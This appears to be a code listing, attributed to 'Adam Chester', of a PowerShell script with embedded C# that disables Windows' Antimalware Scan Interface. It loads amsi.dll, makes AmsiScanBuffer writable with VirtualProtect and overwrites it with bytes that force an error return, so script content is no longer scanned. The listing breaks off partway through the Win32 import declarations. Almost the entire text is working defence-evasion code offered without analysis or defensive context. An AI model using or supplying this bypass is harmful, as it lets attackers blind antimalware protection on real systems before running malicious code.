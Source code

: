 ## Adam Chester

```powershell
# Adam Chester

$Patch = @"
using System;
using System.Runtime.InteropServices;

public class patch
{
    static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    static byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };

    public static void it()
    {
        if (is64Bit())
            PatchAmsi(x64);
        else
            PatchAmsi(x86);
    }

    private static void PatchAmsi(byte[] patch)
    {
        try
        {
            var lib = Win32.LoadLibrary("amsi.dll");
            var addr = Win32.GetProcAddress(lib, "AmsiScanBuffer");

            uint oldProtect;
            Win32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);

            Marshal.Copy(patch, 0, addr, patch.Length);
            Console.WriteLine("Patch Sucessfull");
        }
        catch (Exception e)
        {
            Console.WriteLine(" [x] {0}", e.Message);
            Console.WriteLine(" [x] {0}", e.InnerException);
        }
    }

    private static bool is64Bit()
    {
        bool is64Bit = true;
        
        if (IntPtr.Size == 4)
	        is64Bit = false;

		return is64Bit;  
	}
}

class Win32  
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
```